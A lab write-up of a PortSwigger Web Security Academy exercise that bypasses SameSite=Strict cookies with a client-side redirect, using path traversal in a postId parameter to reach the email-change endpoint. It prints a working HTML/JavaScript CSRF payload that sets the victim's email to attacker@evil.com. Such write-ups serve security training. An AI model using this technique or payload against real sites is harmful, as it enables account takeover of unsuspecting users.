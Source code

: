 # SameSite Strict bypass via client-side redirect | Jan 13, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect), you'll learn: SameSite Strict bypass via client-side redirect! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191421.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191430.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191455.png)

**When we're logged in successfully, it'll set a new session cookie for us:**
```
Set-Cookie: session=YXhMRVKeqb8ShWXU33TCvm1ifYsfjvdF; Secure; HttpOnly; SameSite=Strict
```

In here, we can see **there is a `SameSite` attribute, which is set to `Strict` restriction.**

**View source page:**
```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <input required hidden name='submit' value='1'>
        <button class='button' type='submit'> Update email </button>
    </form>
</div>
```

As you can see, the form doesn't have a CSRF token parameter, which helps to prevent CSRF (Cross-Site Request Forgery) attack. So, it may be vulnerable to CSRF.

When we submit the form, it'll send a POST request to `/my-account/change-email`, with parameter `email`, `submit`.

Let's try to update our email address:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191841.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113191847.png)

Works fine.

However, in order to exploit CSRF, we first have to **bypass the `SameSite=Strict` restriction.**

- Strict restriction:

If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site.

One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.

As far as browsers are concerned, these client-side redirects aren't really redirects at all; the resulting request is just treated as an ordinary, standalone request. Most importantly, this is a same-site request and, as such, will include all cookies related to the site, regardless of any restrictions that are in place.

If you can manipulate this gadget to elicit a malicious secondary request, this can enable you to bypass any SameSite cookie restrictions completely.

That being said, we need to find another vulnerability to successfully exploit CSRF.

In the home page, we can view different posts:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192521.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192530.png)

And we can leave some comments.

Let's leave a test comment:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192707.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192935.png)

**After we send the request, it'll fetch a JavaScript file:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192954.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113192809.png)

**`/resources/js/commentConfirmationRedirect.js`:**
```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

**When we go to `/post/comment/confirmation`, it'll run that JavaScript:**

- After 3 seconds, redirect user to `/post/<postId>`

**However, the GET parameter `postId` is fully under attacker's control!**

**Now, what if I change the path to `/my-account` via path traversal?**
```
/post/comment/confirmation?postId=../my-account/change-email
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194217.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194309.png)

It worked! Also, endpoint `/my-account/change-email` accept GET method!

**Armed with above information, we can craft a CSRF payload:**
```html
<html>
    <head>
        <title>CSRF-8</title>
    </head>
    <body>
        <script type="text/javascript">
            // Before URL encoded:
            // ?postId=../my-account/change-email?email=attacker@evil.com&submit=1
            document.location = 'https://0af50062047c8490c05fc7e3004600e4.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3Femail%3Dattacker%40evil.com%26submit%3D1';
        </script>
    </body>
</html>
```

This HTML payload will redirect user to our `/post/comment/confirmation` upon visit, then using the path traversal technique to exploit CSRF.

Let's host it on the exploit server and test it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194826.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194837.png)

It worked! Let's deliver the payload to victim!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194904.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-8/images/Pasted%20image%2020230113194912.png)

# What we've learned:

1. SameSite Strict bypass via client-side redirect